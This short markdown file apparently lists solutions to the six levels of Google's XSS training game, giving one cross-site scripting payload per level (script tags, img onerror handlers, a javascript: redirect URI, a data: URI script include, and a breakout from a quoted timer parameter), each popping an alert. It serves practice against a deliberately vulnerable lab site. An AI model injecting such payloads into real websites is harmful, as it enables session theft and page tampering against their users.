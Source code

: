 # Game

- 1 level

`https://xss-game.appspot.com/level1/frame?query=<script>alert("Vzlom")</script>`

- 2 level
`<img onerror="alert('Vzlom')" />`

- 3 level
`https://xss-game.appspot.com/level3/frame#'onerror="alert('Vzlom')"`

- 4 level

`https://xss-game.appspot.com/level4/frame?timer=3', alert("Vzlom"), '`

- 5 level

`https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert("Vzlom")`

- 6 level

`https://xss-game.appspot.com/level6/frame#data:text/javascript,alert("Vzlom")`